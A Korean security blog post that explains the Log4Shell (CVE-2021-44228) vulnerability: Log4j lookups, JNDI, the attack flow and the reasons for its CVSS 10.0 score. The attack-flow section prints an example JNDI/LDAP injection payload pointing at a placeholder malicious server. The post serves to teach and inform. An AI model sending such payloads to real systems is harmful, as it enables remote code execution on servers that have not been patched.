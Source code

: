 ```yaml
---
title: "Log4j(Log4Shell) 취약점 분석"
excerpt: "작년말을 뜨겁게 달구었던 Log4j(Log4jshell) 취약점에 대한 내용을 포스팅하려고 한다."
toc: true
toc_sticky: true
categories:
  - Security
tags:
  - Log4j
  - '2022'
  - Log4Shell
last_modified_at: 2022-05-21
---
```


![log4j_meme](/assets/images/2022/2022-05-21-17-24-35.png){: .align-center}

작년말을 뜨겁게 달구었던 Log4j(Log4jshell) 취약점에 대한 내용을 포스팅하려고 한다.
해당 취약점에 관하여서는 정말 많은 자료들이 포스팅되어 있고 지금 시점에 정보성으로 업데이트 하기 조금 늦었지만 그래도 직접 대응하였고 고생했던 것을 기록으로 남겨놓는 것이 의미가 있을 것 같아 남겨놓는다.

## “컴퓨터, 최악 취약점 발견”…국정원 “선제적 조치” / KBS 2021.12.11.

{% include video id="qaeLkwhHZTo" provider="youtube" %}

## Log4j?

말 그대로 Log for Java이다. Java 기반의 프로그램에서 사용하는 로깅 프레임워크로
크게 로그포맷팅/필터링/파일로 기록하는 기능으로 이루어져 있다.

|구성 모듈|주요 역할|기능|
|--------|-------|----|
|Logger|로깅 메시지를 Appender에 전달, 어느 레벨까지 Logging 을 수행할지 결정|로그 필터링|
|Appender|로그의 출력위치를 결정|로그 기록|
|Layout|로그가 어떤 형식으로 출력될 것인지 결졍|로그 포맷팅|

이러한 로깅 프레임워크가 어떻게 컴퓨터 역사상 최악의 취약점이 되었던 것일까?

## History

![jndi_lookup_plugin_support](/assets/images/2022/2022-05-22-13-23-54.png)

2017년 7월 13일 [Lookup 플러그인에 JNDI를 추가하는 이슈](https://issues.apache.org/jira/browse/LOG4J2-313){: target="_blank"}를 통해 Log4j_2.0-beta9에 최초로 취약점이 발생하게 되었다.
이후 2021년 11월 31일까지 알리바바의 클라우드 보안팀에 의해 해당 취약점이 발견되기 전까지 약 8년이라는 기간동안 해당 취약점은 방치되게 된다.

![alibaba_cloud_tweet](/assets/images/2022/2022-05-22-13-28-22.png)

### Log4j Lookups

그렇다면 Lookup 기능은 뭐고 JNDI란 무엇인가... 한번 차근차근 알아가 보자.
먼저 Lookup이란 기능은 로그에 시스템 속성의 값을 예약어를 이용해 출력할 수 있는 기능이다.

가령 아래와 같이 로그를 출력하게 된다면

```java
logger.info("This is test log for example of lookups - ${java:runtime}");
```

```
This is test log for example of lookups - Java(TM) SE Runtime Environment (build 11.0.13+10-LTS-370) from Oracle Corporation
```

이런 식으로 출력이 되는 것이다.
아마도 로그를 남길 때 특정 IP를 사용자 명으로 변경한다던지, 로그를 남기는 환경을 동적으로 기록한다던지 하는 목적으로 필요했던 것 같다.

### JNDI(Java Naming and Directory Interface)

Log4j Lookup 기능에 JNDI 기능을 지원하게 되었다는 게 이번 취약점의 핵심이다.
JNDI는 Jva 어플리케이션에서 이름을 통해 데이터와 리소스(Java 객체 형태)를 검색하고 조회 할 수 있도록 하는 디렉토리 서비스용 Java API 이다.

예를 들어 Java 어플리케이션은 JNDI API를 사용하여 DNS로 URL 주소를 넘겨주고 IP를 받아올 수 있게 하는 기능을 지원한다.

여기서 또 의문점이 생긴다.

**디렉토리 서비스**는 무엇일까?

알다시피 디렉토리는 데이터나 프린터, 컴퓨터, 사용자 정보 등 데이터가 저장된 용기라고 보면 된다.
디렉토리 서비스는 네트워크 서비스의 일종으로 이러한 디렉토리에 접근하여 관리하는 서비스를 말한다.

우리가 흔히 아는 **AD(Active Directory)**도이러한 디렉토리 서비스의 일환이다. (회사직원들의 계정 정보, PC에 대한 정보, 보안 정책들 등)
아래에 보이는 LDAP, DNS, NIS 등이 JNDI를 통해 지원되는 디렉토리 서비스의 일부이며, **서비스 프로바이더 인터페이스**라고도 불린다.

![jndi](/assets/images/2022/2022-05-22-19-27-18.png)

이번 Log4j 취약점은 이중 LDAP을 이용하여 원격 코드 실행(RCE) 취약점을 성공시켰다.

## Attack Flow

전반적인 공격의 경로는 아래와 같다.

![log4j_attack_flow](/assets/images/2022/2022-05-22-19-28-29.png)

1. 취약한 버전의 Log4j 를 사용하는 서버로 공격 패킷을 전송한다. 가령 아래와 같은 페이로드를 가진 패킷이다.
```
${jndi:ldap://MALICIOUS_LDAP_SERVER/COMMAND}
```

2. 취약한 버전의 Log4j 를 사용하는 서버는 아래 구문을 받고 JNDI Lookup 기능을 수행하기 위해 공격자의 악의적인 LDAP 서버(Malicious LDAP Server)로 접근하게 된다.

3. 공격자의 LDAP 서버는 악의적인 커맨드를 전송한다. (이것은 악성파일 배포사이트에서 악성코드를 다운받기 위한 명령어가 될 수도 있고, 해당 서버의 데이터를 삭제하거나 탈취하는 명령어가 될 수도 있다. 위의 시나리오에서는 공격자의 악의적인 HTTP 서버를 통해 공격하는 시나리오로 두었다.)

4. 공격자의 악의적인 HTTP 서버를 통해 공격을 성공하게된다. (악성파일 다운로드 등)

## Why CVSS 10.0?

해당 취약점은 **CVSS(Common Vulnerability Scoring System)** 에서 최고 위험등급인 10.0 을 받았다. ([CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228){: target="_blank"})

*CVSS : 공격 벡터, 공격의 복잡성, 필요한 권한 등 취약점의 중요 특성들에 따라 수치화 된 점수 심각성을 표기하는 서비스(1~10)

그렇다면 해당 취약점이 왜이렇게 위험한 것일까?
아래와 같은 이유로 그러한 이유가 설명이 될 것이다.

1. 자바 기반의 소프트웨어에서 광범위하게 사용되는 라이브러리
   해당 라이브러리는 Java 기반의 소프트웨어에서 로그를 남기는 프레임워크로 매우 광범위 하게 사용되고 있다. 이 말은 공격 대상/범위가 매우 광범위하다는 것이다.
2. 공격 방법이 매우 간단하다.
   복잡한 과정없이 취약한 서버를 대상으로 패킷을 전송하는 것으로만으로도 공격이 성공한다. 공격의 난이도가 매우 쉽다는 말이다.
3. 하나의 소프트웨어는 여러 라이브러리로 구성되어 있는데, 그 중 한곳이라도 취약하면 해당 소프트웨어가 취약하다.
   Log4j 는 앞서 말했던 로그를 남기는 프레임워크로 여러 오픈소스나 소프트웨어에서 광범위하게 사용되고 있다. 때문에 취약한 버전의 Log4j를 사용하면 해당 라이브러리를 사용하는 소프트웨어는 모두 취약하다는 의미가 된다.
4. 내 서버가 이미 공격을 당했는지 분석 위해서는 Log4j 사용 시점부터 분석이 필요하다.
   앞서 말했듯이 해당 취약점은 Log4j 2.0-beta9에 추가된 업데이트로부터 파생(약 8년 전)되었기 때문에 자신이 관리하는 서버가 공격을 받은지 분석을 하기 위해서는 최대 8년의 로그를 뒤져야 할 수도 있다.

## 실습

## Reference
- [Log4j 보안 문제와 해킹 과정 재현하기 (feat. CVE-2021-44228)](https://junhyunny.github.io/information/security/log4j-vulnerability-CVE-2021-44228/){: target="_blank"}
- [아파치 로그4j 취약점에 영향 받는 Log4j Core 공개](https://www.boannews.com/media/view.asp?idx=103419){: target="_blank"}
- [Apache Log4j 취약점 분석 및 대응방안](http://www.igloosec.co.kr/BLOG_Apache%20Log4j%20%EC%B7%A8%EC%95%BD%EC%A0%90%20%EB%B6%84%EC%84%9D%20%EB%B0%8F%20%EB%8C%80%EC%9D%91%EB%B0%A9%EC%95%88?searchItem=&searchWord=&bbsCateId=1&gotoPage=1){: target="_blank"}